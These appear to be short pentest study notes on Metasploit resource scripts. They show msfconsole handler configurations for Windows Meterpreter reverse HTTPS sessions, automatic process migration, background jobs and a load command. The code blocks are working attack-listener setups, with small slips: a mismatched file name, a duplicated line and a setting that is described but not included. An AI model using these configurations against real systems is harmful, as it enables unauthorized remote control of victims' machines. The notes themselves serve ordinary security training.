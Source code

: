 #exploit #metasploit 

### Resource Script

```ruby
use exploit/multi/handler
set PAYLOAD windows/meterpreter_reverse_https
set LHOST 192.168.119.4
set LPORT 443
```

Create a file with this content and name is resource.rc


#### Autorun Scripts

This will execute a module after a session is created 

**set AutoRunScript post/windows/manage/migrate** will create a notepad and migrate the process to that

**set ExitOnSession false** will ensure that session will accept incoming connections

```ruby
use exploit/multi/handler
set PAYLOAD windows/meterpreter_reverse_https
set LHOST 192.168.45.241
set LPORT 443
set ExitOnSession false
set ExitOnSession false
run -z -j
```

 _-z_ and _-j_ to run it as a job in the background and to stop us from automatically interacting with the session

```bash
sudo msfconsole -r listener.rc
```

